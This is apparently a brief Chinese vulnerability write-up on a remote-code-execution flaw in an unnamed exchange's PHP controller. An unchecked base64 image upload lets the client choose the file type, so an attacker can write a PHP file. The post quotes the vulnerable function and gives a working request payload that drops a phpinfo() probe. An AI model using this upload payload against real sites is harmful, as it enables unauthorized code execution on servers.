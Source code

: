 ```yaml
---
title: "Zzzy"
date: 2020-10-25T17:28:10+08:00
draft: true
---
```


# 某交易所RCE

## 漏洞文件
Application/Home/Controller/UserController.class.php




## 漏洞代码

```perl
 public function base64_image_content($base64_image_content, $path)
    {
        //匹配出图片的格式
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)) {
            $type     = $result[2];
            $new_file = $path."/".date('Ymd', time())."/";
            if (!file_exists($new_file)) {
                //检查是否有该文件夹，如果没有就创建，并给予最高权限
                mkdir($new_file, 0700);
            }
            $new_file = $new_file.time().".{$type}";
            if (file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_image_content)))) {
                //return '/'.$new_file;
                return time().'.'.$type.'';
            } else {
                return false;
            }
        } else {
            return false;
        }
    }
```


## 漏洞分析


传参 base64_image_content 和path变量，对传入的base64_image_content进行正则匹配，也就是让我们传一个base64形式的图片，和路径
如data:image/png;base64,xxx，把$result[2]的值赋给变量type。也就是/png这个的内容。生成一个以年月日命名的文件夹。生成一个时间戳的变量赋给new_file。然后对base64后的进行解码，写入文件。代码没判断传入的type头，所以可传入一个php文件




## 漏洞利用


Payload:

```perl
Pc/User/base64_image_content/?base64_image_content=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==&path=./
```


实战中发现不回显文件夹及文件名，可利用Burp发送Payload，查看返回包的时间戳，然后进行转换即可




